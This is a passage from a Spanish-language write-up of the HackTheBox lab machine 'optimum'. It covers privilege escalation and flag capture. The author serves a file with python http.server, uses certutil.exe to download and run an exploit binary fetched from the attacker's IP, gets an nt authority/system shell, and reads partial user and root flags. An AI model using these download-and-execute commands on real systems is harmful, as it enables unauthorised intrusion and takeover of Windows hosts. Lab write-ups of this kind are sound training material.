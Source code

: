 ```bash
sudo python3 -m http.server 80
```

En la máquina objetivo accedemos a la carpeta `C:\Windows/Temp` y creamos una nueva carpeta denominada `priv`.

```bash
cd C:\Windows\Temp
mkdir priv
cd priv
```

Ahora con `certutil.exe` realizamos la carga del binario y le asignamos el nombre `exploit.exe`

```bash
certutil.exe -f -urlcache -split http://10.10.14.2/41020.exe exploit.exe
```

Finalmente ejecutamos el exploit y obtenemos acceso a el usuario `nt authority/system`

```bash
exploit.exe
whoami
nt authority/system
```

¡Listo! Logramos una shell con un usuario administrador.

## FLAGS

Lo único que nos queda es leer las banderas de user y root. Pueden ver la flag con `type`, pero para hacerlo más retador solo dejaré los primeros 10 caracteres de la flag. 

```bash
cd C:\
dir /b/s user.txt*
C:\Users\kostas\Desktop\user.txt.txt
set /P user=<"C:\Users\kostas\Desktop\user.txt.txt"
echo.%user:~1,10%
0c39409d7b
```

```bash
dir /b/s root.txt
C:\Users\Administrator\Desktop\root.txt
set /P root=<"C:\Users\Administrator\Desktop\root.txt"
echo.%root:~1,10%
1ed1b36553
```

¡Hemos logrado completar la máquina `optimum` de HackTheBox!

<p style="text-align: center;">
<img src="/assets/images/optimum/04-finish.png">
</p>

_¡Que tengan un buen día en el planeta donde se encuentren!_

**Nos vemos en otro bit.**

